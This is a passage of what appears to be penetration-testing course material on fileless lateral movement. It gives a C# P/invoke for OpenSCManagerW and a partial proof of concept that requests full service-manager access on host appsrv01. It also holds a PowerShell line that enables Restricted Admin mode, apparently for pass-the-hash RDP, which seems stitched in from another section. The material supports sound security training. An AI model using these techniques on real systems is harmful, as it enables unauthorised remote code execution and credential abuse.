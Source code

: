 5

(Microsoft, 2018), [https://docs.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-createservicea](https://docs.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-createservicea) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5385-5)

6

(Microsoft, 2018), [https://docs.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-openservicea](https://docs.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-openservicea) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5385-6)

7

(Microsoft, 2018), [https://docs.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-changeserviceconfiga](https://docs.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-changeserviceconfiga) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5385-7)

8

(Microsoft, 2018), [https://docs.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-startservicea](https://docs.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-startservicea) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5385-8)

### 16.2.2. Implementing Fileless Lateral Movement in C#

To implement this, we'll begin by creating a new C# console application project. The first API we must call is _OpenSCManagerW_. The P/invoke implementation[1](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5386-1) is shown in Listing 29.

```
[DllImport("advapi32.dll", EntryPoint="OpenSCManagerW", ExactSpelling=true, CharSet=CharSet.Unicode, SetLastError=true)]
    public static extern IntPtr OpenSCManager(string machineName, string databaseName, uint dwAccess);
```

> Listing 29 - P/invoke for OpenSCManagerW

From our discussion of the function prototype of _OpenSCManagerW_, we know that the first argument is the hostname of the target machine, or appsrv01 in our case. We'll set the second argument (the database name) to null and the third argument to the desired access right to the service control manager. We'll request _SC_MANAGER_ALL_ACCESS_ (full access), which has a numerical value of 0xF003F.[2](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5386-2)

We can now create a proof of concept that will invoke the API and perform the authentication:

```
using System;
using System.Runtime.InteropServices;

namespace lat
{
    class Program
    {
        [DllImport("advapi32.dll", EntryPoint="OpenSCManagerW", ExactSpelling=true, CharSet=CharSet.Unicode, SetLastError=true)]
    public static extern IntPtr OpenSCManager(string machineName, string databaseName, uint dwAccess);

        static void Main(string[] args)
        {
            String target = "appsrv01";
            
```

[appsrv01]: PS C:\Users\admin\Documents> New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
[appsrv01]: PS C:\Users\admin\Documents> Exit